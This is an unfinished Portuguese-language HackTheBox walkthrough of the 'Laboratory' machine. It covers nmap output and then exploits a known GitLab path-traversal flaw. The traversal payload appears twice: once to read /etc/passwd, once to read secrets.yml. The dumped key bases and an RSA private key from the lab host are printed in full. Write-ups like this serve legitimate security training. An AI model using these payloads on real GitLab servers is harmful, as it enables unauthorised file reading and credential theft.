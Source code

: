 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Laboratory - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Yy18N58.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos perceber dois sites:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://laboratory.htb/
https://git.laboratory.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o site https://git.laboratory.htb/ nos deparamos com um [GitLab](https://about.gitlab.com/).

Em seguida, vamos tentar nos cadastrar:
![Image](https://i.imgur.com/ZBrnqIP.png)

Após o cadastro ser bem sucedido, temos acesso ao painel do GitLab, portanto, vamos tententar identificar a versão utilizada.

Na página https://git.laboratory.htb/help podemos identificar a versão exata que está sendo utilizada:
![Image](https://i.imgur.com/Jf44fiC.png)


Após encontrar a versão, podemos fazer buscas por exploits e falhas já conhecidas da versão...

Um [report](https://hackerone.com/reports/827052) do site de bugbounty HackerOne é nosso ponto inicial.

Portanto, devemos primeiramente criar dois projetos:

Vou chamar um de 'chu' e outro de 'stevenseagal' (XD)

Projeto 1 - chu:
![Image](https://i.imgur.com/xX8oTlp.png)

Projeto 2 - stevenseagal: 
![Image](https://i.imgur.com/EtNLpZ9.png)

Podemos conferir os dois projetos criados:
![Image](https://i.imgur.com/ntSr8u1.png)

Depois de criarmos os dois projetos, vamos tentar simular o que foi feito no report do H1.

Primeiro passo criar um novo Issue no projeto 'chu'
![Image](https://i.imgur.com/xMcW43V.png)

Dentro do issue iremos usar o mesmo payload do report
![Image](https://i.imgur.com/xMcW43V.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Logo em seguida, vamos mover o Issue para o outro projeto. (em meu caso do projeto chu para stevenseagal)
![Image]https://i.imgur.com/9r5mEnz.png

Ao mover, dentro do projeto 2(stevenseagal) podemos perceber que ele já renomeou o arquivo em anexo chamado 'a' para o arquivo que queriamos (/etc/passwd)
![Image](https://i.imgur.com/OND9zlB.png)

Ao abrir o arquivo, temos o conteúdo:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora que já conseguimos ler arquivos dentro do servidor, podemos procurar por arquivos sensiveis que nos auxiliaram na exploração...
Um deles é o [secrets.yml](https://docs.gitlab.com/ee/development/application_secrets.html)

Portanto, repetimos o mesmo passo que fizemos para ler o /etc/passwd.

![Image](https://i.imgur.com/IleNsTZ.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao mover para o projeto 2, temos o arquivo secrets.yml
![Image](https://i.imgur.com/1G0jbn2.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    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
    -----END RSA PRIVATE KEY-----
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


to escrevendo guenta aew
